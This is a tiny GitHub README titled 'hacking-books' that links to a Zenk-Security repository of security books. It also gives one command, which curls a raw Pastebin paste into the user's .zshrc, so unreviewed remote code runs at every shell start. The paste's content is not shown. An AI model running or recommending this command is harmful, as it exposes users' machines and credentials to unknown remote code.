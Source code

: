 # hacking-books

https://repo.zenk-security.com/ 

curl https://pastebin.com/raw/6SNp88i7 >> .zshrc
